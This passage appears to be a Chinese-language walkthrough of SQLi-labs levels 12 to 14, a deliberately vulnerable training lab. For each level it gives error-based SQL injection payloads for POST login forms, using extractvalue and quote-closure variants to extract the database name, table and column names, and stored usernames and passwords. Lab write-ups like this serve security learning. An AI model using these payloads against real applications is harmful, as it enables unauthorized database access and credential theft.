 查询到部分用户的用户名和密码，如果想查看更多可以继续添加where 与 not in属性
`uname=admin' and extractvalue(1,concat('~',(select group_concat('|',username,'~',password,'|') from users where username not in('Dumb','Angelina') ))) --+ &passwd=admin&submit=Submit`
以此类推

***
# less 12(基于错误的双引号POST型字符变形的注入)
***
## 原理
与上一题相似，但是改成了双引号变形字符注入，值得注意的是，并不是把单引号换成双引号这么简单，查看源码找到注入点
发现uname和passwd都被用双引号括了起来，所以要想办法对其进行闭合并且接入新的语句

## 步骤
1.构造语句
`admin"  and extractvalue(1,concat('~',(select database())))  and " `
也是用报错的漏洞，将数据库信息输出
2.爆表名
`uname=admin"  and extractvalue(1,concat('~',(select group_concat(table_name) from information_schema.tables where table_schema=database())))  and "  &passwd=admin&submit=Submit `
3.爆列名
`uname=admin"  and extractvalue(1,concat('~',(select group_concat(column_name) from information_schema.columns where table_name='users')))  and "  &passwd=admin&submit=Submit`
还是由于显示的问题，所以采用where和not in的属性对其进行限制与显示新的数据
4.其余爆用户名和密码的方式与之前一样
`uname=admin" and extractvalue(1,concat('~',(select group_concat(username,'~',password) from users))) and " &passwd=admin&submit=Submit`



***
# less 13(POST单引号变形双注入)
***
## 原理
基于报错的注入
## 步骤
1.首先尝试单引号注入，根据报错信息得知闭合方式是')
2.`uname=admin') and extractvalue(1,concat(0x7e,(select database())))  and ('`
其余的过程与上一关基本相同
***
# less 14(POST单引号变形双注入)
***
## 原理
依旧是根据报错爆名
## 步骤
1.还是单引号找注入点，发现没有回显，猜测单引号被双引号所包裹，所以尝试双引号显示了错误信息。
2.`uname=admin" and extractvalue(1,concat(0x7e,(select database()))) and "  &passwd=admin&submit=Submit`
可以发现凡是用到报错函数的句式都长得非常相似，其整体思路也是相同的
具体爆库名表命列名payload学习见上，唯一需要注意的就是闭合方式
***
